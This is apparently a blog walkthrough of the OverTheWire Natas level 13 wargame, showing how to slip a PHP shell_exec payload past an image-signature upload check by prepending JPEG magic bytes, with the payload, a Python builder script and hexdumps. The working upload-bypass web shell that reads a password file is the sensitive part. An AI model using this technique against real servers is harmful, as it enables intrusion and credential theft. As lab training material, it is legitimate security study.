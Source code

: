 ```yaml
---
layout: post
title:  "Natas Level 13"
date:   2015-09-28 20:50
categories: natas wargame web overthewire
author: Nate
---
```

## Step 1: View the source code
The only difference between this level and natas12 is the line where the file is checked for an image signature.  If you click "View Source Code" at http://natas13.natas.labs.overthewire.org/index-source.html, you'll see this function:

```javascript

    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
The documentation for exif_imagetype() is available at php.net:
http://php.net/manual/en/function.exif-imagetype.php

Reading through the documentation, we see that it "reads the first bytes of an image and checks its signature."  Thus, we need to find a way to fake an image signature.

An astute observer might also note that the server script isn't checking for file extensions.  A php script just like the one used for natas12 will be interpreted by the webserver because of it's file extension and ignore anything else like the signature of an image until it reaches the opening '<?php' that indicates a script to follow.

## Step 2: Fake an image file signature
There are plenty of websites on the internet that provide file signatures for various image formats.  A cursory search engine query will turn up something you can use.  The initial mistake I made was thinking I could open up a file and write hex values by hand.  This was my payload:
```php
FFD8FFE0
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>";
?>
```

I tried to prepend a jpeg signature to my php script and found that it still didn't fool the exif_imagetype() function.  So I grabbed a jpeg file from my laptop and did a hexdump:

```bash
~# hexdump image.jpeg
0000000 ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01
```
Then I tried the same thing on my malfunctioning payload:
```
~# hexdump test.php
0000000 46 46 44 38 46 46 45 30 0a 3c 3f 70 68 70 0a 24
0000010 70 61 73 73 77 6f 72 64 20 3d 20 73 68 65 6c 6c
0000020 5f 65 78 65 63 28 22 63 61 74 20 2f 65 74 63 2f
0000030 6e 61 74 61 73 5f 77 65 62 70 61 73 73 2f 6e 61
0000040 74 61 73 31 33 22 29 3b 0a 65 63 68 6f 20 22 3c
0000050 70 72 65 3e 24 6f 75 74 70 75 74 3c 2f 70 72 65
0000060 3e 22 3b 0a 3f 3e 0a
0000067
```
Okay, so I can't write that by hand.  A little online research suggested writing some code to do it for me:
```python
#!/bin/python
fp = open("test.php",'w')
fp.write('\xFF\xD8\xFF\xE0' + 'shell_exec("cat /etc/natas_webpass/natas14");')
fp.close()
```
So then I opened up my file with an editor:
```php
ÿØÿà<?php print shell_exec("cat /etc/natas_webpass/natas14"); ?>
```
Those weird characters before my php script are the binary hex values that we were looking for.
Just to confirm, I took a look at the file in hexdump again:
```bash
~# hexdump test.php
0000000 ff d8 ff e0 3c 3f 70 68 70 20 70 72 69 6e 74 20
0000010 73 68 65 6c 6c 5f 65 78 65 63 28 22 63 61 74 20
0000020 2f 65 74 63 2f 6e 61 74 61 73 5f 77 65 62 70 61
0000030 73 73 2f 6e 61 74 61 73 31 34 22 29 3b 20 3f 3e
0000040 0a
0000041
```
It worked.  Now lets see if we can fool the server.

## Step 3: Upload your payload

Just upload the working file you just created, and sure enough, we got past the filter.  Natas13 gave us a link to our new file.  Follow the link, copy the password - making sure to not copy the first 4 values (those are the binary hex values used to fake the image signature).
